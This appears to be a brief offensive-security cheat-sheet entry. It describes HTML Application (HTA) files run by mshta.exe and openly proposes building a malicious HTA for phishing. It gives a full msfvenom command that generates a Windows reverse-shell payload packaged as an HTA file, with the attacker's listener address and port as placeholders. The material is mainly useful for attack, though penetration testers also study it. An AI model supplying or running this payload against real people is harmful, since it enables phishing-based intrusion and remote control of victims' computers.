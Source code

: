 An HTA is a proprietary Windows program whose source code consists of HTML and one or more scripting languages supported by Internet Explorer (VBScript and JScript). An HTA is executed using mshta.exe, which is typically installed along with IE. In fact, mshta is dependant on IE, so if it has been uninstalled, HTAs will be unable to execute.We can create a malicious hta file and use it on phishing.
### Creation of a malicious .hta with msfvenom

```shell
sudo msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALHOST LPORT=$LOCAL_PORT -f hta-psh -o evil.hta
```
